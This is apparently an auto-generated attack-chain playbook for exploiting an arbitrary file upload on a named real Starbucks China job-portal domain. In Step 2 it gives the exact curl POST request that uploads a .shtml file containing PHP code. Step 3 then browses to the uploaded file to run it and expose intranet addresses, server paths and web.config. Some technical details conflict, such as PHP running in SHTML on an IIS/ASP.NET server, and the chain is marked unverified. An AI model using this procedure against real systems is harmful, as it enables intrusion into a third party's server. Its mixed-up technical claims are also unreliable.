

# Arbitrary File Upload Leading to Server Information Disclosure on Starbucks Job Portal

Multi-stage attack chain demonstrating exploitation of an arbitrary file upload vulnerability in the web application on ecjobsdc.starbucks.com.cn, allowing upload of HTML/SHTML files to achieve code execution and server information disclosure.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web proxy tool like Burp Suite for request crafting
- Browser for accessing uploaded files

### Target Environment

- Web application on Windows IIS server
- Port 80 open
- ASP.NET-based upload functionality

### Initial Access Requirements

- Public network access to the target domain (ecjobsdc.starbucks.com.cn)
- No authentication required for the upload endpoint

## Detailed Attack Procedures

### Step 1: Identify the File Upload Endpoint
procedure: [[procedures/Identify-File-Upload-Endpoint]]

**Objective**: Locate the vulnerable file upload functionality in the web application to prepare for exploitation.

**Instructions**: Inspect the web application for upload features, typically in forms or AJAX endpoints. For this target, navigate to the job portal and monitor network traffic to identify the POST endpoint handling file uploads.

**Expected Output**: Confirmation of the upload URL: /recruitjob/hxpublic_v6/hxinterface6.aspx?_hxcategory=hx_filebox_upload_file.

**Success Indicators**:
- Endpoint URL identified
- Parameter name (hxwebfileboxcontrol_upload_file_inputbox) confirmed

### Step 2: Craft and Send Malicious File Upload Request
procedure: [[procedures/Craft-Malicious-File-Upload-Request]]

**Objective**: Bypass file extension validation by uploading a malicious SHTML file containing executable code via a modified POST request.

**Instructions**: Use a tool like curl or Burp Suite to send a multipart form-data POST request. Craft the request with a filename ending in .shtml and embed PHP-like code for execution.

Execute [[commands/upload-malicious-shtml-file]] to perform the upload:

```bash
curl -X POST http://ecjobsdc.starbucks.com.cn/recruitjob/hxpublic_v6/hxinterface6.aspx?_hxcategory=hx_filebox_upload_file \
  -H "Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryevPInYidBxSvSd06" \
  --data-binary $'------WebKitFormBoundaryevPInYidBxSvSd06\r\nContent-Disposition: form-data; name="hxwebfileboxcontrol_upload_file_inputbox"; filename="xxx.shtml"\r\nContent-Type: application/octet-stream\r\n\r\n<?php echo 1111;?>\r\n------WebKitFormBoundaryevPInYidBxSvSd06--\r\n'
```

**Expected Output**: Server response indicating successful upload, with a temporary file path or ID returned.

**Success Indicators**:
- HTTP 200 response with upload confirmation
- No error on file extension

### Step 3: Access Uploaded File to Execute Code
procedure: [[procedures/Access-and-Execute-Uploaded-File]]

**Objective**: Retrieve and execute the uploaded malicious file to run code and disclose server details like intranet IP, paths, and config files.

**Instructions**: Use a browser to access the uploaded file's URL, which will execute the embedded code on the server.

Navigate to the temporary file path, e.g., /recruitjob/tempfiles/temp_uploaded_34afb246-02f1-4cb0-978d-15805c2a05c8.shtml.

**Expected Output**: Page output showing executed code results, such as "1111", along with server variables like REMOTE_ADDR (10.92.29.50), physical path (D:\TrustHX\STBKSERM101\www_app), and web.config contents.

**Success Indicators**:
- Code execution confirmed (e.g., output of 1111)
- Sensitive server information disclosed

## Attack Chain Summary

### Key Achievements

1. Successful upload of arbitrary SHTML file bypassing extension checks
2. Server-side code execution revealing intranet IP and paths
3. Access to web.config for further phishing or RCE potential

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Remote File Copy]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T12:00:00Z*
